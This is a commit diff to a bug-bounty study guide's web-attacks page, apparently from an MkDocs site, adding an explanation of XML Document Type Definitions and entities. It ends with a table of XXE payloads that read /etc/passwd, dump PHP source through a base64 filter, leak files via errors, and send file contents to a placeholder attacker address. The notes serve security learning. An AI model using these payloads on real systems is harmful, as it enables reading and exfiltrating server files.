

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/web-attacks.md, in a window 1280 px wide and 1400 px high, scrolled down 4696 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5336 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
edit xml dtd section to web attacks page

````diff
--- a/docs/bug-bounty-guide/web-attacks.md
+++ b/docs/bug-bounty-guide/web-attacks.md
@@ -173,10 +173,55 @@
 </email>
 ```
 
-| Key        | Definition                                                                 | Example                          |
-|------------|----------------------------------------------------------------------------|----------------------------------|
-| Tag       | The keys of an XML document, usually wrapped with </> characters.          | `<date>`                         |
-| Entity    | XML variables, usually wrapped with &/; characters.                        | `&lt;`                             |
-| Element   | The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag. | `<date>01-01-2022</date>`         |
-| Attribute | Optional specifications for any element that are stored in the tags, which may be used by the XML parser. | `version="1.0"/encoding="UTF-8"`  |
-| Declaration | Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it. | `<?xml version="1.0" encoding="UTF-8"?>` |
+### XML Document Type Definition (DTD)
+
+Defines an XML documents structure/can be validated against
+
+``` xml
+<!DOCTYPE email [
+  <!ELEMENT email (date, time, sender, recipients, body)>
+  <!ELEMENT recipients (to, cc?)>
+  <!ELEMENT cc (to*)>
+  <!ELEMENT date (#PCDATA)>
+  <!ELEMENT time (#PCDATA)>
+  <!ELEMENT sender (#PCDATA)>
+  <!ELEMENT to  (#PCDATA)>
+  <!ELEMENT body (#PCDATA)>
+]>
+```
+
+Referenced within the XML document itself
+
+``` xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE email SYSTEM "email.dtd">
+```
+or
+``` xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
+```
+Defining XML variables in DTD
+``` xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE email [
+  <!ENTITY company "Inlane Freight">
+]>
+```
+The above defined company variable can be referenced in the XML document like this: `&company;`
+Variables can also be referenced externally using the SYSTEM (or PUBLIC) keyword:
+``` xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE email [
+  <!ENTITY company SYSTEM "http://localhost/company.txt">
+  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
+]>
+```
+
+| Code | Description |
+|------|-------------|
+| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
+| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
+| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
+| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
+| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
````
